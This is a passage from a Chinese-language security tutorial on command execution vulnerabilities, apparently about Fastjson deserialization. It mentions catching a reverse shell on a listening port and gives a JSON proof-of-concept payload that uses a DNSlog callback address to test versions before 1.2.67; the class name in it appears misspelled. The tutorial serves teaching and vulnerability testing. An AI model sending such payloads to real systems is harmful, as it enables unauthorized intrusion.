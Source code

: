    >    >    ![image-20210904100740665](../images/12_命令执行漏洞/image-20210904100740665.png)
   >    >
   >    > 4. 前往监听端口，接收反弹shell
   >    >
   >    >    ![image-20210904100916632](../images/12_命令执行漏洞/image-20210904100916632.png)

5. `1.2.67`版本之前通用的POC：验证是否存在漏洞

   ~~~text
   {
   	"a":
   	{
   		"@type":"java.net.lnet4Address",
   		"val":"DNSlog服务器给出的地址"
   	}
   }
   ~~~



---

[^注1]:  POC：Proof of Concept，中文意思是“观点证明”。这个短语会在漏洞报告中使用，漏洞报告中的POC则是一段说明或者一个攻击的样例，使得读者能够确认这个漏洞是真实存在的。
[^注2]: 序列化分为两大部分：序列化和反序列化。序列化是这个过程的第一部分，将数据分解成字节流，以便存储在文件中或在网络上传输。反序列化就是打开字节流并重构对象。对象序列化不仅要将基本数据类型转换成字节表示，有时还要恢复数据。恢复数据要求有恢复数据的对象实例。

